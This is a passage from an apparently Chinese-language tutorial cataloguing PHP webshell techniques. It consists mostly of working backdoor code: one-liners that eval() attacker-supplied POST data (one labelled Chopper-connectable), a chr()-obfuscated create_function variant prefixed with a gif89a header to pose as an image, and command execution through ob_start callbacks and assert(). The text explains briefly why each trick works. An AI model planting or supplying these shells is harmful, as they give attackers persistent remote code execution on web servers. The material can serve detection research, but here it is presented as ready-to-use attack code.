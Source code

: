 ```php
# 菜刀可连接
<?php
    eval('function lambda_n() { eval($_POST[1]); }');
    lambda_n();
?>
```

这里之所以可以使用`create_function`是因为在PHP内部 `create_function()` 只是对 `eval()`的一层封装，它最终还是使用`eval()`进行代码执行的

create\_function另一种形式

```php
gif89a
<?php
    $_chr = chr(99).chr(104).chr(114); //chr  
    $_eval_post_1 = $_chr(101).$_chr(118).$_chr(97).$_chr(108).$_chr(40).$_chr(36).$_chr(95).$_chr(80).$_chr(79).$_chr(83).$_chr(84).$_chr(91).$_chr(49).$_chr(93).$_chr(41).$_chr(59); //eval($_POST[1]); 
    $_create_function = $_chr(99).$_chr(114).$_chr(101).$_chr(97).$_chr(116).$_chr(101).$_chr(95).$_chr(102).$_chr(117).$_chr(110).$_chr(99).$_chr(116).$_chr(105).$_chr(111).$_chr(110); //create_function 

    $_= $_create_function("",$_eval_post_1); //die(var_dump($_create_function ));
    @$_();
?>
```

### 0x15: 利用系统输出缓存的方法

```php
<?php
    $foobar = 'system';
    ob_start($foobar);
    echo "dir c:";
    ob_end_flush();
?>
```

``[`ob_start()`](http://cn2.php.net/manual/zh/function.ob-start.php)会把自己接收到的字符串当作一个"回调函数callback\_func"，并将接下来的缓冲区输入，当作这个"回调函数"的参数

还可以重写ob\_start方法

```php
<?php 
ob_start(function ($c,$d){register_shutdown_function('assert',$c);}); 
echo $_REQUEST['pass']; 
ob_end_flush(); 
?>
```

### 0x16: 利用[assert()](https://www.php.net/manual/zh/function.assert.php)断言来进行代码执行&#x20;

```php
<?php
    $foobar = 'system("dir")';
    assert($foobar);
?>
```
